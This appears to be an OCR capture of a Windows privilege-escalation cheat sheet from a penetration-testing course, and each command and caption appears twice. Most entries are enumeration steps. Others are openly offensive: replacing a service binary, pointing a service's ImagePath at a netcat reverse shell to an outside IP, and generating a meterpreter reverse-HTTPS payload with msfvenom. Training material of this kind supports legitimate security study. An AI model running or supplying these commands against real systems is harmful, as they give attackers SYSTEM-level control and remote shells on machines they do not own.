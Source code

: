 REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdminREG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

> Checking UAC levelChecking UAC level

`[environment]::OSVersion.Version``[environment]::OSVersion.Version`

> Checking Windows versionChecking Windows version

`cmd /c echo %PATH%``cmd /c echo %PATH%`

> Reviewing path variableReviewing path variable

`.\SharpUp.exe audit``.\SharpUp.exe audit`

> Running SharpUpRunning SharpUp

`icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"``icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`

> Checking service permissions with icaclsChecking service permissions with icacls

`cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"``cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"`

> Replace a service binaryReplace a service binary

`wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """``wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """`

> Searching for unquoted service pathsSearching for unquoted service paths

`accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services``accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`

> Checking for weak service ACLs in the RegistryChecking for weak service ACLs in the Registry

`Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"``Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`

> Changing ImagePath with PowerShellChanging ImagePath with PowerShell

`Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl``Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl`

> Check startup programsCheck startup programs

`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe``msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`

> Generating a malicious binaryGenerating a malicious binary

`get-process -Id 3324``get-process -Id 3324`

> Enumerating a process ID with PowerShellEnumerating a process ID with PowerShell

`get-service | ? {$_.DisplayName -like 'Druva*'}``get-service | ? {$_.DisplayName -like 'Druva*'}`
